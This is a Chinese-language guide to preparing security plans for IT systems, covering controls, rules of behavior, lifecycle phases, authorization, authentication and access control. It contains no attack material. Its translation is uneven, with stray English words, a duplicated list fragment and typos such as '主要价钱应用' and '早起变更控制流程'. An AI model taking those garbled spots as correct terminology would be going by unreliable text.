本文档仅作为指导，不应被解释为唯一可行的格式。然而，标准化的方法不仅使


通过提供示例，使计划的制定更加容易，同时也为审查计划提供了基准。计划中包含的细节程度应与系统对组织任务的关键性和价值保持一致（即，对于组织任务至关重要的系统需要更详细的计划）。安全计划应充分识别和描述系统当前已实施或计划实施的控制措施，并应包括一份*行为规则*清单。

### 计划的建议与评论

在计划实施之前，应征求独立的建议和评论。独立的建议和评论应从组织内部或外部不负责系统开发、实施或运营的人员处获取。组织政策应定义谁将提供独立的建议。提供建议和评论的人员应独立于系统负责人的汇报链，并应具备充分的知识或经验，以确保计划包含适当的信息并符合组织的安全政策和标准。适当的人员可能包括组织的IT安全计划经理、其他系统的IT经理、外部承包商或其他联邦组织的人员。

### 受众

本指南有两个不同的用途。它供负责系统层面和组织层面IT安全的人员使用。本文档旨在作为制定安全计划时的指南。它是专门为计算机安全专业知识较少或没有的人员编写的。本文档还可以作为审计员、经理和IT安全官员的审计工具。所呈现的概念是通用的，可应用于私营和公共部门的组织。

### 系统分析

安全计划完成后，将包含有关系统的技术信息、其安全要求以及为防范其*风险*和漏洞而实施的控制措施。在制定计划之前，必须确定系统需要哪种类型的计划。本节引导读者进行系统分析，以确定系统的边界和系统类型。

### 系统边界

为了本指南的目的，定义什么构成"系统"需要对系统边界和组织责任进行分析。根据本指南的定义，系统是通过在一组进程、通信、存储和相关资源周围构建逻辑边界来识别的。这些边界内的元素构成一个需要安全计划的单一系统。系统的每个元素必须：

- 处于相同的直接管理控制之下。
- 具有相同的功能或任务目标。
- 具有基本上相同的操作特征和安全需求。
- 位于相同的一般操作环境中。

### 系统类别

下一步是将每个系统归类为"主要应用"或"一般支持系统"。所有应用都应由安全计划覆盖。如果被指定为主要应用，则将单独覆盖；如果位于一般支持系统的安全计划内，则在该计划内覆盖。即使某个系统也由被指定为一般支持系统的系统支持，它也可以被指定为主要应用。例如，局域网（LAN）可能被指定为一般支持系统并有安全计划。组织的会计系统可能被指定为主要应用，即使它由局域网的计算和通信资源支持。在此示例中，由于该应用处理的信息的敏感性，主要应用需要额外的安全要求。当为受一般支持系统支持的主要应用需要安全计划时，需要协调两个计划。

### 主要应用

所有联邦和大多数企业应用都有价值，因此需要一定程度的保护。某些应用因其包含、处理或传输的信息，或因其对组织任务的关键性，需要特别的管理监督。这些应用就是主要应用。

各机构应运用管理判断来确定哪些应用是主要应用，并确保非主要应用的安全要求作为适用一般支持系统安全计划的一部分进行讨论。

主要应用是执行明确直接管理控制的系统。这些组件可以是单个软件应用或支持特定任务相关功能的硬件/软件组合。主要应用也可以由多个单独的应用组成，只要它们都与单一任务功能相关（例如，工资或人事）。如果某个系统被定义为主要应用且该应用在另一组织的一般支持系统上运行：

- 通知系统负责人该应用至关重要或包含*敏感信息*，并提供具体的安全要求。
- 向一般支持系统的运营方提供主要应用安全计划的副本。
- 请求一般支持系统的系统安全计划副本，并确保其对该应用和信息提供充分的保护。
- 在系统环境部分中包含对一般支持系统安全计划的引用，包括唯一的名称/标识符信息。

一般支持系统由同一直接管理控制下的互连信息资源组成，共享通用功能。一般支持系统通常包括硬件、软件、信息、数据、应用、通信、设施和人员，并为各种用户和/或应用提供支持。例如，一般支持系统可以是：

- 局域网（LAN），包括支持分支办公室的智能终端。
- 基础设施骨干网。
- 通信网络。
- 部门数据处理中心，包括其操作系统和公用程序。
- 共享信息处理服务组织。

主要应用可以在一般支持系统上运行。一般支持系统计划应在一般描述/目的部分引用主要应用计划。

### 计划制定

### 系统识别

#### 系统名称/标题

### 负责组织

识别并描述关系。请具体说明组织，不要使用缩写。包括物理位置和地址。

#### 信息联系人

列出被指定为本系统联系点的一个或多个人员的姓名、职务、组织和电话号码。所列联系人中应指定一名系统负责人。指定人员应具备足够的系统知识，以便在需要时能够提供额外的信息或联络点。

#### 安全责任分配

必须以书面形式指定一名人员负责确保应用或一般支持系统具有足够的安全性。为有效履行职责，该人员必须了解用于保护系统的管理、运营和技术控制措施。包括被指定负责系统安全的人员的姓名、职务和电话号码。

### 系统运行状态

为*系统的运行状态*指明以下一项或多项。如果选择了多项状态，请列出系统的哪些部分涵盖在每个状态下。

- *运行中。*系统正在运行。
- *开发中。*系统正在设计、开发或实施中。
- *正在进行重大修改。*系统正在进行重大转换或过渡。

如果系统处于开发中或正在进行重大修改，请提供有关用于确保包含前期安全要求的方法的信息。根据系统在安全生命周期中的位置，在计划的相应部分包含具体的控制措施。

### 一般描述/目的

简要描述（一到三段）系统的功能和目的（例如，经济指标、组织的网络支持、商业普查数据分析）。

如果系统是一般支持系统，请列出一般支持系统支持的所有应用。说明该应用是或不是


主要应用，并包括唯一的名称/标识符（如适用）。描述每个应用的功能和处理的信息。列出用户组织清单，无论它们是属于系统所有者组织的内部还是外部，并提供信息类型和处理方式的一般描述。向应用所有者（以及主要应用的安全计划副本）请求信息，以确保满足其需求。

#### 系统环境

简要（一至三段）概述技术系统的一般情况。包括任何引起特殊安全顾虑的环境或技术因素，例如：

- 该系统连接到互联网。
- 该系统位于恶劣环境或海外环境。
- 软件快速实施。
- 该软件驻留在公众使用的开放网络或具有海外访问权限的网络上。
- 应用在处理设施中进行处理，但该设施不在组织控制范围内。
- 通用支持主机具有拨号线路。

描述使用的主要计算平台（例如，主机、桌面、局域网（LAN）或广域网（WAN））。包括主要系统组件的一般描述，涵盖硬件、软件和通信资源。讨论所包含的通信类型（例如，专用电路、拨号电路、公共数据/语音网络、互联网）。在安全计划的适当章节中描述用于保护通信线路的控制措施。

包括保护系统和信息的任何安全软件。一般性地描述所提供的安全保护类型（例如，在操作系统层面对计算平台和存储文件的访问控制，或对应用内数据记录的访问）。只包括已实施或已计划实施的控制，而不是列出软件中可用的控制。可用的但未实施的控制无法提供任何保护。

#### 系统互联/信息共享

系统互联是指为共享信息资源而直接连接系统。如果系统互联未得到适当保护，可能导致所有连接系统及其存储、处理或传输的数据遭到破坏。重要的是，系统操作员、信息所有者和管理人员应尽可能多地获取与系统互联和信息共享相关的漏洞信息，以及降低这些漏洞所需的增强控制措施。系统的安全计划通常可作为实现这种安全信息交换的机制，并使管理层能够就风险降低和风险接受做出知情决策。

必须在安全计划中包含系统互联规则和保护共享数据的描述（参见*行为规范*部分）。在本部分中，提供有关授权连接到其他系统或共享信息的以下信息：

- 互联系统的列表（包括互联网）
- 唯一的系统标识符（如适用）
- 系统名称
- 其他系统的所属组织
- 互联类型（TCP/IP、拨号、SNA等）
- 确定互联时的主要顾虑或考虑因素的简短讨论
- 授权管理官员的姓名和职位
- 授权日期
- 记录系统（如适用）
- 每个系统的敏感级别
- 系统之间的交互
- 需要在本系统保护中考虑的其他系统的安全顾虑和行为规范

### 所处理信息的敏感性

本节提供系统处理的信息类型描述，以及对信息关键性的分析。系统存储、处理或传输信息的敏感性和关键性为系统价值提供了依据，也是*风险管理*的主要因素之一。该描述将为各类用户提供信息，包括：

- 分析师/程序员，他们将据此帮助设计适当的安全控制

列出任何对系统中数据/信息的*保密性*、*完整性*或*可用性*提出具体要求的法律、法规或政策。

信息和信息系统都有各自独特的生命周期。重要的是，通过考虑信息对可用性、完整性和保密性的要求来评估信息的敏感程度。这一过程应在信息系统生命周期的开始进行，并在每个生命周期阶段重新审查。

在生命周期早期整合安全考虑可避免昂贵的安全补救措施。然而，安全要求可在任何生命周期阶段纳入。本节的目的是针对可用性、完整性和保密性需求审查系统要求。通过执行此分析，可以确定系统的价值。价值是风险管理的首要主要因素之一。系统可能出于以下一个或多个原因需要保护：

**保密性。** 该系统包含需要防止未经授权泄露的信息。

**完整性。** 该系统包含必须防止未经授权、意外或非故意修改的信息。

**可用性。** 该系统包含的信息或提供的服务必须及时可用，以满足任务需求或避免重大损失。

一般性地描述系统处理的信息以及保护措施的必要性。将处理的信息与三项基本保护要求——保密性、完整性和可用性——相关联。包括因信息丢失、误用、未经授权访问或修改而造成的估计风险和危害程度的说明。尽可能从成本、无法执行规定职能、及时性等方面描述这种影响。对于三个类别（保密性、完整性和可用性）中的每一项，说明保护要求是：

- **高**，系统的关键关注点。
- **中**，重要关注点，但不一定是组织优先事项中的首要任务。
- **低**，需要一定的最低安全级别，但程度不及前两类。

#### 管理控制

在本节中，描述旨在满足主要价钱应用或通用支持系统保护要求的管理控制措施（*现有*或*计划*）。管理控制侧重于计算机安全系统的管理和系统的风险管理。控制措施的类型应与保护主要价钱应用或通用支持系统的需要保持一致。为帮助读者，提供了各种管理控制的简要说明。

### 风险评估和管理

用于评估系统风险性质和水平的方法应包括风险管理主要因素的考虑：系统或应用的价值、威胁、漏洞以及当前或拟议安全措施的有效性。所使用的方法应至少用一段文字描述。例如，所选的风险评估方法是否识别了威胁、漏洞以及为减轻或消除这些威胁/漏洞对系统或其资产可能造成的影响而所需的额外安全措施？包括进行系统风险评估的日期。说明已识别的风险与为系统确定的保密性、完整性和可用性要求的关系。

如果系统没有风险评估，则应包括完成风险评估的里程碑日期（年月）。如果风险评估已超过三年，或系统或功能发生了重大变化，则应包括完成新的或更新风险评估的里程碑日期（年月）。评估系统风险应是一项持续进行的活动，以确保识别新的威胁和漏洞，并实施适当的安全措施。


 ## 安全控制审查

描述过去三年内对通用支持系统或主要应用所进行的审查类型及发现结果。包括有关该系统最近一次独立审计或审查的信息，以及由谁执行的审查。讨论审查中的任何发现或建议，并包含有关纠正任何缺陷或完成任何建议的信息。如果该系统尚未进行过独立审计或审查，请在本节中说明。

安全审查、评估或评价可能由内部或外部组织或团体对您的系统进行。此类审查包括组织其他部门的 physical security 专员对您设施或场所进行的审查、系统审计，或由您的承包商执行的安全计划审查。这些审查可能评估整个系统或某个逻辑部分/子系统的安全性。如果这些类型的审查是全面的，则其系统描述、发现和建议可作为独立审查，并可为您的风险评估和风险管理提供支持信息。如果对您的系统进行了其他类型的安全评估，请包含有关谁执行了审查、审查何时进行、审查的目的、审查发现以及因审查而采取的行动的信息。

审查或审计应独立于负责主要应用或通用支持系统的经理。独立审计可以是内部的或外部的，但应由不受个人和外部因素影响其独立性或其感知独立性的个人或组织执行（例如，他们设计了正在接受审查的系统）。对于某些使用快速变化技术的高风险系统，三年可能太长；可能需要更频繁地进行审查。这些审查的目的是提供验证，即所选定的和/或已安装的控制措施提供了与系统可接受风险水平相称的保护水平。风险水平可接受的判定必须相对于系统在保密性、完整性和可用性方面的要求，以及已识别的威胁来做出。

系统的安全性可能会随着时间的推移而下降，因为技术变化、系统演变或人员和流程变化。定期审查可确保管理、运营、人员和技术控制措施有效运作并提供足够的保护水平。

审查或审计的类型和严格程度应与系统规则中确定的可接受风险水平相称，并获得有助于改进安全的有用信息的可能性相称。病毒扫描器、漏洞评估产品（查找已知安全问题、配置错误以及最新硬件/软件"补丁"的安装情况）和渗透测试等技术工具可协助进行系统安全措施的持续审查。然而，这些工具不能替代至少每三年进行一次正式的管理审查。

### 行为规则

将通用支持系统或主要应用的行为规则作为附录附上，并在本节中引用附录编号，或将规则插入本节。必须为每个系统建立一套行为规则。规则所要求的安全程度只需为系统及其包含的信息提供足够的安全性即可。可接受的风险水平应作为确定规则的基础。行为规则应明确界定所有有权访问系统的人员的责任和预期行为。规则应说明行为不一致或不遵守规定的后果。规则应以书面形式制定，并作为安全意识和培训的基础。

行为规则还应包括对其他系统互联的适当限制，并定义服务提供和恢复优先级。它们应涵盖在家工作、拨号接入、互联网连接、版权作品使用、政府设备的非官方使用、系统权限的分配和限制以及个人问责制等事项。规则应反映系统中的管理和技术安全控制措施。例如，有关密码使用的规则应与系统中的技术密码特性保持一致。此类规则还包括对更改信息、搜索数据库或泄露信息的限制。行为规则可通过与系统特别相关的行政处分（例如，丧失系统权限）或通过因违反其他行为规则而施加的更一般性处分来执行。

行为规则应在用户获得系统访问授权之前提供给每位用户。建议规则包含签名页，每位用户应在该页上确认收到。

##### 生命周期中的安全规划

虽然可以在生命周期中的任何时点为系统制定计算机安全计划，但推荐的方法是在计算机系统生命周期的开始时制定计划。需要认识到的是，在某些情况下，系统可能同时处于生命周期的多个阶段。例如，一个大型人力资源系统可能处于运行/维护阶段，而旧的、面向批处理的输入子系统正在被新的、分布式的交互式用户界面所取代。在这种情况下，系统的生命周期阶段包括：*处置阶段*（数据和设备），与面向批处理的交易系统的退役相关；*启动和获取阶段*，与替代交互式输入系统相关；以及系统其余部分的*运行/维护阶段*。

在本节中，确定系统或部分系统所处的生命周期阶段。识别在适用的生命周期阶段中是如何处理安全的。下面列出了生命周期每个阶段的描述，其中包括将提示读者识别在主要应用或通用支持系统所处的生命周期阶段中是如何处理安全的问题。IT系统生命周期有多种模型，但大多数包含五个基本阶段：启动、开发/获取、实施、运行和处置。

##### 启动阶段

在启动阶段，表达了对系统的需求并记录了系统的目的。可以执行敏感性评估，以查看待处理信息和系统本身的敏感性。如果系统或部分系统处于启动阶段，请参考"信息处理的敏感性"部分中描述的敏感性评估。

#### 开发/获取阶段

在此阶段，系统设计、采购、编程、开发或以其他方式构建。此阶段通常包含其他定义的周期，例如系统开发周期或获取周期。

在开发/获取阶段的初始部分，安全要求应在系统规划人员定义系统需求的同时制定。这些要求可以表示为技术特性（例如，访问控制）、保证措施（例如，系统开发人员的背景调查）或操作实践（例如，意识和培训）。如果系统或部分系统处于此阶段，请包含任何所用规格的一般描述，以及它们是否正在维护中。应解决以下问题：

- 在系统设计期间，是否识别了安全需求？
- 是否在采购行动之前开发了适当的安全控制措施以及相关的评估和测试程序？
- 招标文件（例如，建议书征询书）是否包含安全需求和评估/测试程序？


 - 需求是否允许在发现新威胁/漏洞以及实施新技术时更新安全要求？
- 如果这是一个采购的商业应用程序，或者应用程序包含商业现成组件，是否在采购规范中识别并纳入了安全要求？

##### 实施阶段

在实施阶段，应配置并启用系统的安全功能，系统应进行测试并安装或部署，系统应获得处理授权。（有关该要求的说明，请参阅"授权处理"部分。）在将系统投入运行之前，应进行设计审查和系统测试，以确保其符合安全规范。此外，如果向应用程序或支持系统添加了新控件，则必须对这些新控件执行额外的验收测试。这确保了新控件满足安全规范，并且不会与现有控件冲突或使其失效。设计审查和系统测试的结果应完整记录，并在执行新审查或测试时进行更新，保存在组织的正式记录中。

如果系统或系统的一部分处于实施阶段，请描述设计审查和系统测试的时间和执行人员。包括关于初始验收测试完成后添加的任何新控件所进行的额外设计审查和系统测试的信息。讨论这些审查和测试的文档是否已保持最新，并维护在组织记录中。

##### 运行/维护阶段

在此阶段，系统执行其工作。系统几乎总是在持续修改，通过添加硬件和软件以及众多其他事件进行修改。如果系统正在进行修改，请确定系统修改处于生命周期的哪个阶段，并描述该系统部分已进行或计划进行的安全活动。对于处于运行/维护阶段的系统，安全计划记录安全活动。在本安全计划的适当部分，应描述以下高级别项目：

**安全运行和管理。** 系统的运行涉及许多安全活动。执行备份、举办培训课程、管理加密密钥、维护用户管理和访问权限以及更新安全软件等都是一些示例。

#### 运行保证

运行保证检查系统是否按照其当前安全要求进行运行。这包括操作或使用系统的人员的行为以及技术控件的运作情况。管理人员必须以书面形式授权使用系统，该授权基于其安全计划的实施。（有关该要求的说明，请参阅"授权处理"部分。）

#### 审计和监控

为保持运行保证，组织使用两种基本方法：系统审计和监控。这些术语在计算机安全社区中使用较为宽松，且经常重叠。系统审计是一次性或周期性的事件，用于评估安全性。监控是指检查系统或用户的持续活动。一般而言，某项活动的实时性越高，它就越属于监控的范畴。

##### 处置阶段

IT系统生命周期的处置阶段涉及信息、硬件和软件的处置。如果系统或系统的一部分处于生命周期末期，请在本部分简要描述以下项目的处置方式：

### 信息

信息可能会转移到另一个系统、归档、丢弃或销毁。归档信息时，请考虑未来检索信息的方法。虽然电子信息通常更容易检索和存储，但用于创建记录的技术在未来可能无法轻易获得。对于已加密数据的未来使用，也可能需要采取措施，例如采取适当步骤确保加密密钥的安全长期存储。处置IT系统时，考虑记录的法定保留要求非常重要。

#### 介质清理

从存储介质（如硬盘或磁带）中删除信息称为*清理*。不同类型的清理提供不同级别的保护。可以在清除信息（使其无法通过键盘攻击恢复）和清除（使信息无法通过实验室攻击恢复）之间进行区分。清除介质有三种通用方法：覆写、消磁（仅适用于磁性介质）和销毁。

#### 授权处理

"授权处理"一词是指管理人员授予系统处理信息的授权。它迫使管理人员和技术人员在给定技术约束、操作约束和任务要求的情况下，找到安全的最佳平衡点。通过授权系统中的处理，管理人员接受与其相关的风险。在计划的此部分，包括授权日期、管理人员的姓名和职务。如果未授权，提供请求批准运行的经理的姓名和职务，以及请求日期。

安全官员和授权管理人员都有安全责任。安全官员更贴近系统的日常运行，并将指导、执行或监控安全任务。授权官员通常对系统所支持的组织负有总体责任。授权不应该是安全人员做出的决定。系统授权流程的规范化降低了系统在没有适当管理层审查的情况下投入生产环境的可能性。

管理授权必须基于对管理、操作和技术控件的评估。由于安全计划确立了系统保护要求并记录了系统中的安全控件，它应构成授权的基础。授权通常得到技术评估和/或安全评估、风险评估、应急计划以及签署的行为规则的支持。

以下是授权系统进行处理之前必须到位的最低安全控件。控件级别应与系统包含的敏感级别一致。

- 技术和/或安全评估已完成。
- 已进行风险评估。
- 行为规则已建立并由用户签署。
-  established and signed by users.
- 应急计划已制定并测试。
- 安全计划已制定、更新和审查。
- 系统符合所有适用的联邦法律、法规、政策、指南和标准。
- 现有和计划的安全保障措施对系统而言似乎是充分和适当的。
- 现有保障措施按预期运行。

### 运行控件

从本部分开始并延续到技术控件，提供两种格式和相关指导：一种用于主要应用程序，另一种用于通用支持系统。此后，主要应用程序和通用支持系统之间的控件差异足以按系统类型进行划分。

#### 主要应用程序：运行控件

运行控件涉及主要 focus on 由人员（而非系统）实施和执行的安全方法。这些控件旨在提高特定系统（或系统组）的安全性。它们通常需要技术或专业知识——并且通常依赖管理活动以及技术控件。

在本部分，描述旨在满足主要应用程序保护要求的运行控制措施（现有或计划中）。

#### 人员安全

对系统最大的损害/干扰来自个人的行为，包括有意和无意的行为。系统经常因被授权使用或维护系统的个人的善意行为而遭受中断、损坏、损失或其他不利影响（例如，程序员插入一个微小的更改，然后未经测试就将程序安装到生产环境中）。

在本部分，包括以下人员安全措施的详细信息。（建议将这些措施中的大多数作为行为规则的一部分纳入。如果它们已纳入行为规则，请引用相应部分。）

- 所有职位是否都已审查敏感级别？如果并非所有职位都已审查，请说明完成职位敏感性分析的计划日期。

- 是否包含个人是否已接受与其分配职位相应的背景审查的声明？如果并非所有个人都已接受适当的背景审查，请说明完成此类筛查的日期。

- 是否描述了个人在完成适当背景审查之前被允许系统访问的条件？请指定任何补偿性控件以减轻相关风险。

- 用户访问是否受限（最小权限）到数据文件、处理能力或外围设备以及访问类型（例如，读取、写入、执行、删除）仅限于执行工作所需的最低限度？


 - 关键职能是否在不同人员之间进行划分（职责分离），以确保任何个人都不会拥有可能导致欺诈活动的全部权限或信息访问权限？

- 是否有用于请求、建立、发放和关闭用户账户的流程？

- 有哪些机制来让用户对其行为负责？

- 友好离职和非友好离职的终止程序分别是什么？

### 物理与环境防护

实施物理和环境安全控制是为了保护容纳系统资源的设施、系统资源本身，以及用于支持其运行的设施。组织的物理和环境安全计划应涵盖以下七个方面。

#### 物理与环境安全的说明

在本节中，简要描述主要应用已有的物理和环境控制。

**访问控制。** 物理访问控制限制人员（通常还包括设备和介质）进出某个区域，例如办公楼、办公套房、数据中心或包含局域网（LAN）服务器的房间。物理访问控制不仅应涵盖包含系统硬件的区域，还应涵盖用于连接系统各要素的布线位置、支持服务（如电力）、备份介质以及系统运行所需的任何其他要素。重要的是，在每个区域都要审查物理访问控制的有效性，无论是在正常工作时间还是在其他时间——特别是在某个区域可能无人值守的时候。

**消防安全因素。** 建筑火灾是一种特别危险的安全威胁，因为它可能导致硬件和数据完全损毁、危及人员生命安全，并且损害具有普遍性。局部火灾产生的烟雾、腐蚀性气体和高湿度可以损坏整栋建筑内的系统。因此，评估容纳系统的建筑的防火安全性非常重要。

**支持性公用设施故障。** 系统及其操作人员需要在一个控制良好的运行环境中工作。电力、暖通空调系统、水、污水及其他公用设施的故障通常会导致服务中断，并可能损坏硬件。因此，组织应确保这些公用设施，包括其众多组成部分，正常运行。

**结构坍塌。** 组织应意识到建筑物可能承受超出其承重能力的负荷。最常见的原因包括地震、超出设计标准的屋顶积雪、导致结构构件移位或断裂的爆炸，以及削弱结构构件的火灾。

**管道泄漏。** 虽然管道泄漏并非每天都会发生，但可能造成严重破坏。组织应了解可能危及系统硬件的管道线路位置，并采取措施降低风险（例如，移走硬件、重新布置管道线路、识别关闭阀门）。

**数据截获。** 根据系统处理的数据类型，数据被截获可能存在重大风险。组织应意识到数据截获有三种途径：直接观察、数据传输截获和电磁截获。

**移动式和便携式系统。** 如果系统安装在车辆中或是便携式的（如笔记本电脑），通常需要修改风险分析和管理方法。车辆中的系统将承担该车辆的风险，包括事故和盗窃，以及区域性和当地性风险。组织应当：

- 在笔记本电脑不使用时将其安全存放。
- 在成本效益允许的情况下，对存储介质上的数据文件进行加密，以防笔记本电脑丢失或被盗时信息泄露。

#### 生产、输入/输出控制

在本节中，提供支持应用程序运行的程序的概要。以下是应报告的样本主题。

**用户支持。** 是否有帮助台或团队提供建议并能及时响应安全事件？是否有以下程序，记录如何识别、处理和报告事件和/或问题？（*事件响应能力*章节第530页提供了更多问题。）

- 确保未经授权的个人无法读取、复制、更改或窃取印刷或电子信息的程序。
- 确保只有授权用户才能领取、接收或传输输入和输出信息及介质的程序。
- 敏感输入/输出的接收审计跟踪。
- 限制访问输出产品的程序。
- 用于运输或邮寄介质或印刷输出的程序和控件。
- 内部/外部标识的适当敏感性（例如，隐私法、专有）。
- 带有特殊处理说明的外部标签（例如，日志/库存标识符、受控访问、特殊存储说明、发布或销毁日期）。
- 库存管理的审计跟踪。
- 介质存储库或库房的物理和环境控制及程序。
- 对电子介质进行净化处理以便重复使用的程序（例如，覆盖或消磁电子介质）。
- 对损坏的介质或无法有效净化以重复使用的介质进行受控存储、处理或销毁的程序。
- 对不再需要的硬拷贝介质进行粉碎或其他破坏性处理的程序。

#### 应急计划

需要制定程序，使组织在信息技术支持中断时能够继续执行基本职能。这些程序（应急计划、业务中断计划和运行连续性计划）应与任何通用支持系统（包括应用程序使用的网络）的备份、应急和恢复计划协调一致。应急计划应确保识别接口系统并协调应急/灾难规划。

简要描述为确保应用程序在支持的IT系统不可用时继续处理而应遵循的程序（应急计划）；将详细计划作为附件提供。在此描述中纳入对以下问题的考虑：

- 是否已有经过测试的应急计划，以在发生灾难性事件时确保关键任务职能的连续性？
- 是否已为所有支持的IT系统和网络制定经过测试的灾难恢复计划？
- 正式书面的紧急操作程序是否已张贴或放置，以便在紧急情况下使用？
- 应急、灾难和紧急计划多久测试一次？
- 所有员工是否都接受了与其在紧急、灾难和应急计划中的角色和职责相关的培训？

包括对以下控件的描述：

- 任何备份处理协议（例如，与商业服务提供商的热站合同）。
- 记录在案的备份程序，包括频率（每日、每周、每月）和范围（完全备份、增量备份和差异备份）。
-  backups存储位置（异地或现场）。
-  保留的备份世代数。
-  备份程序的范围（例如，正在备份什么）。

### 应用软件维护
这些控件用于监控应用软件的安装和更新，以确保软件按预期运行，并保留应用程序变更的历史记录。这有助于确保只有经过授权的软件才能安装到系统上。此类控件可能包括软件配置策略，该策略要求对修改进行 managerial 批准（重新授权处理），并要求记录变更。其他控件还包括用于审计或防止非法使用共享软件或受版权保护软件的产品和程序。软件维护程序也可称为版本控制、变更管理或配置管理。以下问题是在回答本节时应解决的事项示例：

- 应用软件是内部开发的还是通过合同开发的？
- 您的机构是否拥有该软件的版权？
- 应用软件是否是从另一办公室接收的，并且已明确其为贵方的财产？
- 应用软件是享有版权的商用现成产品还是共享软件？
- 如果该应用程序是享有版权的商用现成产品（或共享软件），是否为该应用程序将在其上运行的所有系统购买了足够数量的许可副本？
- 是否有针对该应用程序的正式早起变更控制流程？


 - 测试数据是“实时”数据还是虚构数据？
- 应用程序软件的所有更改都有文档记录吗？
- 是否为紧急数据修复激活了陷阱门“热键”？
- 测试结果有文档记录吗？
- 紧急修复是如何处理的？
- 是否有组织政策禁止非法使用受版权保护的软件或共享软件？
- 是否定期对用户计算机（PC）进行审计，以确保只安装了合法授权的软件副本？
- 使用哪些产品和程序来保护流动性、费用和收入报表；以及用于支持风险管理决策的其他文件。

### 文档

文档是一种安全控制措施，因为它解释了软件/硬件的使用方法；它还正式规定了系统特定的安全和操作程序。系统文档包括硬件和软件的描述、策略、标准、程序以及与应用程序及其处理所依赖的支持系统相关的自动化信息系统安全审批，包括备份和应急活动，以及用户和操作员程序的描述。

文档应与通用支持系统和/或网络管理员协调，以确保维护足够的应用程序和安装文档，以提供操作的连续性。列出为该应用程序维护的文档。

#### 安全意识与培训

每个用户在获准访问系统之前，必须了解该应用程序的可接受行为规则。培训计划还应告知用户在遇到使用系统 difficulties 时如何寻求帮助，并说明报告安全事件的程序。

向公众提供的访问应受到应用程序中的限制，培训应在这些限制的范围内进行，并且可能仅包括访问时的通知。

在计划的这一部分中包括以下信息：

- 应用程序的 Awareness 计划（海报、小册子和纪念品）。
- 向员工和合同人员提供的应用程序特定培训的类型和频率（研讨会、工作坊、正式课堂、焦点小组、基于角色的培训和在职培训）。
- 向员工和合同人员提供的通用支持系统培训的类型和频率（研讨会、工作坊、正式课堂、焦点小组、基于角色的培训和在职培训）。
- 确保员工和合同人员已接受充分培训的程序。

## 主要应用程序：技术控制

技术控制侧重于计算机系统执行的安全控制。这些控制可以提供针对未经授权访问或滥用的自动保护，便于检测安全违规行为，并支持应用程序和数据的安全要求。然而，技术控制的实施总是需要重要的操作考虑，并应与组织内的安全管理保持一致。

在本节中，描述旨在满足主要应用程序保护要求的技术控制措施（已实施或计划中的）。

### *识别与认证*

识别和认证是一种技术措施，防止未经授权的人员（或未经授权的进程）进入IT系统。访问控制通常要求系统能够识别和区分用户。例如，访问控制通常基于*最小权限*原则，即仅向用户授予执行其职责所必需的最低限度的访问权限。用户问责制要求将IT系统上的活动与特定个人联系起来，因此需要系统识别用户。

#### 识别

识别是用户向系统提供声称身份的手段。最常见的识别形式是用户ID。

在计划的这一部分，简要描述主要应用程序如何识别对系统的访问。

**唯一识别。**

组织应要求用户在获准对系统执行任何操作之前唯一地识别自己，除非用户匿名性或其他因素另有规定。

**将行为与用户关联。**

系统应在内部维护所有活动用户的身份，并能够将行为与特定用户联系起来。（参见审计跟踪部分。）

**用户ID的维护。**

组织应确保所有用户ID都属于当前授权用户。识别数据必须通过添加新用户和删除 former 用户来保持最新。

**非活跃用户ID。**

在系统上非活动特定时间段（例如三个月）的用户ID应被禁用。

#### **认证**

认证是建立用户对系统声称身份*有效性*的手段。有三种认证用户身份的方式，可以单独使用或组合使用：个人*知道*的（秘密——例如，密码、个人识别码（PIN）或加密密钥）；个人*拥有*的（令牌——例如，ATM卡或智能卡）；以及个人*是*的（生物识别——例如，语音模式、手写动态或指纹等特征）。

在本节中，描述主要应用程序的认证控制机制。在描述中，执行以下操作：

- 描述用户认证方法（密码、令牌和生物识别）。
- 如果使用密码系统，提供以下具体信息：
  - 允许的字符集
  - 密码长度（最小值、最大值）
  - 密码 aging 时间框架和执行方法
  - 禁止使用的过期密码世代数
  - 密码更改程序
  - 丢失密码的处理程序
  - 密码泄露的处理程序
- 描述培训用户的程序，以及涵盖的材料。
- 说明密码更改的频率；描述如何强制执行密码更改（例如，由软件或系统管理员执行）；

并识别谁更改密码（用户、系统或系统管理员)。

- 描述所使用的任何生物识别控制措施。包括生物识别控制措施在系统上的实施方式的描述。

- 描述系统上使用的任何令牌控制措施及其实施方式。回答以下问题：

- 是否需要特殊的硬件读取器？

- 用户是否需要使用唯一的个人识别码(PIN)？

- PIN由谁选择，用户还是系统管理员？

- 令牌是否使用密码生成器来创建一次性密码？

- 是否使用挑战-应答协议来创建一次性密码？

- 描述访问控制机制的执行级别(网络、操作系统和应用程序)。

- 描述访问控制机制如何支持个人问责制和审计追踪(例如，密码与用户标识符相关联，而该标识符是分配给单个人的)。

- 描述用户认证机制的自保护技术(例如，密码使用单向加密进行传输和存储，以防止任何人[包括系统管理员]读取明文密码；密码自动生成；密码会按禁止密码词典进行检查；密码在传输过程中加密)。

- 说明给定用户标识符或访问位置(终端或端口)可能发生的无效访问尝试次数，并描述超过该限制时采取的措施。

- 描述验证所有系统提供的管理默认密码是否已更改的程序。

- 描述限制使用嵌入了密码的访问脚本的程序(例如，禁止嵌入了密码的脚本；仅允许批处理应用程序使用嵌入了密码的脚本)。

- 描述任何关于绕过用户认证要求的策略、单点登录技术(例如，主机到主机、认证服务器、用户到主机标识符和组用户标识符)以及任何补偿控制措施。

### **逻辑访问控制(授权/访问控制)**

逻辑访问控制是基于系统的机制，用于指定谁或什么(在涉及进程的情况下)有权访问特定系统资源以及允许何种类型的访问。

在本节中，讨论用于授权或限制用户和系统人员在应用程序内活动的控制措施。描述旨在仅允许对应用程序或其内部进行授权访问、将用户限制在授权交易和功能内、和/或检测未授权活动的硬件或软件功能(例如，访问控制列表、ACL)。执行以下操作：

- 描述明确定义将授予每个用户或用户类别的权限的正式策略。说明这些策略是否遵循最小权限原则，该原则要求识别用户的工作职能，确定执行该职能所需的最低权限集，并将用户限制在具有这些权限而不再多于此的域内。包括授予新用户访问权限的程序以及角色或工作职能变更时的程序。

- 说明策略是否包括职责分离执行，以防止个人拥有允许欺诈活动所需的所有权限或信息访问权限而无需串通。

- 描述应用程序建立ACL或注册用户及其允许访问类型的能力。

- 说明是否维护手动ACL。

- 说明安全软件是否允许应用程序所有者限制其他应用程序用户、一般支持系统管理员或操作员对应用程序、数据或文件的访问权限。

- 描述如何限制应用程序用户访问操作系统、其他应用程序或履行其职责不需要的其他系统资源。

- 说明ACL审查的频率，以识别并移除已离开组织或其职责不再需要访问应用程序的用户。

- 描述检测授权和/或未授权用户进行未授权交易尝试的控制措施。

